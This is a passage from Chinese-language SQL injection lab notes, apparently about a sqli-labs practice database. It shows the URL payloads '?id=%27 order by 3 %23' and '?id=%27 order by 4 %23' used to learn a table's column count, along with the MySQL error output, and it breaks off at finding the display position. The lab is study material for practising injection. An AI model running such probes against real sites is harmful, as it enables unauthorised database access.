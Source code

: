 1. 使用order/group by 判断字段长度

   users表中内容

   ```shell
   mysql> select * from users
       -> ;
   +----+----------+------------+
   | id | username | password   |
   +----+----------+------------+
   |  1 | Dumb     | Dumb       |
   |  2 | Angelina | I-kill-you |
   |  3 | Dummy    | p@ssword   |
   |  4 | secure   | crappy     |
   |  5 | stupid   | stupidity  |
   |  6 | superman | genious    |
   |  7 | batman   | mob!le     |
   |  8 | admin    | admin      |
   +----+----------+------------+
   ```

   `?id=%27 order by 3 %23`

   `?id=%27 order by 4 %23`

   ![](../pic/28.png)

   ![](../pic/29.png)

   4报错，3没有报错，表示此表有三列。

   *sql 控制台的执行结果*

   ```
   mysql> select * from users where id=0 order by 4;
   ERROR 1054 (42S22): Unknown column '4' in 'order clause'
   mysql> select * from user where id=0 order by 3;
   Empty set (0.00 sec)
   
   ```

   查看回显位置
